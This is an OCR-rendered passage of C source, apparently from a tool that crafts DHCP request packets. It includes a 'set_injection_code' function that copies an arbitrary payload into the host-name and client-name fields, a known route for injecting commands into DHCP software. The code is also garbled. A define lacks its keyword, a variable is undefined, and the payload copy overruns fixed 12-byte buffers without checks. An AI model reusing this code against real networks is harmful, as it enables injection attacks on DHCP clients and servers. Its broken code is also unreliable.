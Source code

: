 ```c
        {
            Info = Info->Next;
        }
        else
        {
            ip_addr = inet_addr(Info->IpAddressList.IpAddress.String);
            for (int i = 0; i< 4; i++)
                boost_custom_o->requested_ip_addres50[i] = ip_addr_temp[i];
            break;
        }
    } while (Info);
}
void set_injection_code(struct boost_custom * boost_custom_o, char * injection_code, int injection_code_size)
{
    memset(&boost_custom_o->host_name12, 0, NAMESIZE);
    memset(&boost_custom_o->client_name81, 0, NAMESIZE);
    for (int i = 0; i< injection_code_size; i++)
    {
        boost_custom_o->host_name12[i] = injection_code[i];
        boost_custom_o->client_name81[i] = injection_code[i];
    }
}
```

### dhcp_req.h

```h
NAMESIZE 12
struct boost_custom {
    char Message_type;
    char Hardware_type;
    char Hardware_address_length;
    char Hops;
    int Transaction_ID;
    short Seconds_elapsed;
    short Bootp_flags;
    int Client_IP_address;
    int Your_client_IP_address;
    int Next_server_IP_address;
    int Relay_agent_IP_address;
    char Client_MAC_address[6];
    char Client_hardware_address_padding[10];
    char Server_host_name_not_given[64];
    char Boot_file_name_not_given[128];
    int Magic_cookie;
    struct Option32 {
        char Option_type32;
        char Option_length32;
        char DHCP_Request32;
    };
    struct Option61 {
        char Option_type61;
        char Option_length61;
        char Hardware_type_Ethernet61;
        char Client_MAC_address61[6];
    };
    struct option50 {
        char option_type50;
        char option_length50;
        char requested_ip_addres50[4];
    };
    struct option12 {
```